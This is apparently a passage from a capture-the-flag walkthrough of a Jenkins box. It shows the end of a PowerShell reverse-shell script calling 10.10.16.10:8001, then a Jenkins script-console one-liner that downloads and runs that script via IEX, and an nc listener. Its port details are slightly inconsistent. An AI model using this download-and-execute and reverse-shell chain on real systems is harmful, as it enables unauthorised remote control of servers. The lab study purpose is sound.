 ```bash hl_lines="18 127"

            #Return the results
            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte,0,$sendbyte.Length)
            $stream.Flush()  
        }
        $client.Close()
        if ($listener)
        {
            $listener.Stop()
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }
}
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.10 -Port 8001
```
After we can host this file on the local server on port `80`

```bash
python3 -m http.server 80
```
then we can write our commmand to get the shell on the `script cosnole`

```bash
cmd = """ powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.16.10:8000/rev.ps1')) """
println cmd.execute().text
```
now start the listener on the termianl for the port `8001` as we defined on the script.

```bash
nc -lvnp 8001
```
Run the script onliner on the scrip consol of `jenkins` and we get a shell.

![](../../Assets/walktrhough-assets/jeeves/2025-02-09_4.png)
